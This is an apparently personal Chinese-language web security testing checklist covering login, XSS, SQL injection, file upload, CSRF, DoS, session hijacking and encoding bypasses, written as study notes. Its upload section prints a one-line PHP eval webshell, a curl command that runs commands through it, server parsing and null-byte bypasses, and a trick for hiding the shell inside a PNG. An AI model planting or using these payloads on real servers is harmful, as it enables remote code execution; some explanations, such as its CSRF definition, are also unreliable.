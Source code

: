 ### 安全测试
1. 登录流程
	1. 不登录系统，直接输入登录URL是否可以访问
	2. 不登录系统，输入文件URL是否可以下载文件
	3. 退出登录后，点击浏览器后退能否访问之前的页面
	4. Session有效期
	5. N次错误密码输入
    6. 某用户知道他人账户后，多次尝试他人账户密码登录，导致他人账户锁定
    
2. 加密
	是否采用主流加密方式（RSA，AES...)
	是否采用 https协议
	Tomcat、WebShpere、WebLogic、Jetty 应用容器是否 采用证书 加密验证
	Nginx 服务器是否采用 OpenSSL 加密
   
3. 越权
    1. 类别 
        - 横向越权
        - 纵向越权
    2. 攻击方式
	    1. 手动更改中的参数是否能访问无权限访问的页面    
	
4. XSS(跨站脚本攻击)
    - 攻击类型
        1. 反射型
            - 未经验证和未经转义的用户输入、直接作为html输出的一部分
            - 特点: 非持久化，必须用户点击特定链接才会触发
            - 影响范围: 仅执行脚本的用户
            - 
        2. 存储型
            - 获取不可信数据，存入数据库
            - 获取数据时，未进行过滤
            - 漏洞利用工具: BeEF(自带JS脚本、后台界面): 账号/密码 sec
               ```
                    docker run -d -p 3000:3000 registry.cn-shanghai.aliyuncs.com/yhskc/beef
               ```
        3. DOM型/突变型
            - DOM型XSS: 通过JS操作DOM树动态的输出数据到页面
            - 突变型XSS: 攻击者输入看似安全的内容，在解析标记时经过浏览器重写或修改发生突变，生成不安全的代码，并执行
            - Jquery 跨站脚本漏洞，CNNVD-202004-2429、CVE-2020-11022
            - purify 漏洞
        
    - XSS危害
        1. 盗取Cookie
        2. 盗取账号
        3. 恶意软件下载
        3. 键盘记录
        5. 网站引流
    - 解决方式
        - 文本框 (Html+JS数据处理)
        - Ajax后台请求的数据读取innerHtml(数据处理)
        - 通过npm引入xss依赖，然后其正则方式过滤显示特定标签或属性
5. XXE()
   
6. SQL注入(SQL Injection)
	- 采用PreparedStatement方式处理SQL拼接(Mybaits 使用#{xxx})
	- 存储过程
	
7. 任意文件下载(上传下载)
	- 上传：上传类型判断(除JS判断外，Java判断文件类型)	(类型判断不能单凭后缀，部分可执行文件通过修改后缀方式蒙混过关)
	    - 上传木马文件(php/jsp/aspx/py/shell...) 
	        ```
                <?php @eval($POST['hacker']); ?>
            ```
        - 访问木马文件地址
            ```
                curl -d "hacker=echo get_current_user();" http://127.0.0.1/images/shell.php
            ```
        - 绕过方式
            0. (nginx/apache 指定文件后缀解析方式，配置方式存在漏洞可绕过)
            1. IIS5/IIS6 服务器解析漏洞
                1. 当创建.asp文件目录时，在此目录下的任意文件，服务器均解析为asp文件
                2. 服务器默认不解析;以后的内容
                ```
                    www.xxx.com/aa.asp/bb.jpg 会被解析为asp文件
                    www.xxx.com/aa.asp;.jpg 会被解析为asp文件
                ```
            2. Apache1.x/Apache2.x 服务器漏洞
                1. Apache从左至右开始判断后缀，跳过非可识别的后缀，直到找到可识别的后缀为止，然后将该可识别的后缀进行解析
                ```
                    www.xxx.com/xxx/shell.php.test  会被解析为php文件
                ```
            3. .htaccess 绕过
            4. 字符串截断文件名绕过
                - 在可设置文件上传路径的上传时，设置上传路径为: ../upload/xxx.php%00
                - 上传一个内容为 php的病毒文件，此时%00为URL截断字符，上传的文件将被识别为php文件
            5. 文件头检测绕过
                - png 文件头:
                    ```
                        89 50 4E 47 
                    ```
                - jpg 文件头:
                    ```
                        FF D8 FF DB 
                    ```   
                - 绕过方式: 将恶意内容附着在正常的头文件上
                    ```
                        1. vim test.png
                        2. cat shell.php >> test.png
                    ```
        - 防御方式:
            1. 后缀名(白名单)限制(jpeg/jpg/png/txt/log/...)    
	- 下载：下载是否有路径，路径是否有做../、./等处理，避免访问系统其它目录文件(下载路径必须不能为可配置)
	
8. CSRF攻击
    0. 定义: 用户访问网站A，再访问恶意网站B，恶意网站B获取用户Cookie，携带Cookie信息访问到网站A，
	1. 应用采用白名单方式，未在白名单的域名内不能访问	
	2. 验证 HTTP Referer 字段,标明了站点来源，给用户分配token
	
9. 分布式DoS攻击
	1. 攻击方式：
	    - Ping Flood攻击即利用ping命令不停的发送的数据包到服务器。
	    - SYN Flood攻击即利用tcp协议原理，伪造受害者的ip地址，一直保持与服务器的连接，导致受害者连接服务器的时候拒绝服务。
	2. 解决方案：设置路由器与交换机的安全配置，即设置防火墙
	
10. DNS缓存污染
   1. 攻击方式：第三方可信赖的域名服务器缓存了一些DNS解析，但被别人制造一些假域名服务器封包污染了，指向错误网址。
   2. 解决方案：备多个域名服务器商。
   
11. 会话劫持
    1. 攻击方式：劫持会话cookies，把受害者（A）与受害者（B）之间通信经过攻击者的电脑。（常见于在线聊天系统）
    2. 解决方案：用户进行二次验证，随机产生会话ID，会话cookies设置httponly（某些情况下httponly设置无效）。增加http请求头信息。判断是否是真实用户的请求。

12. WebShell
    1. PHP、ASP、JSP、Python、Shell...
	2. Excel导出文件(宏)、word文件调用操作系统函数下载安装病毒

13. Command Inject (命令行注入)
14. 软件热更新：
    - 使用非对称后门接口进行软件更新，避免对称后门接口。 给后端程序加壳。使用蜜罐技术。
    
15. 伪协议与编码绕过
    1. 伪协议
        1. data伪协议, data:text/html;base64,xxxx
        2. javascript 伪协议: javascript:alert(1)
    2. 编码绕过
        1. Unicode编码及URL编码
        2. JavaScript 编码
        3. HTML实体编码
        4. URL编码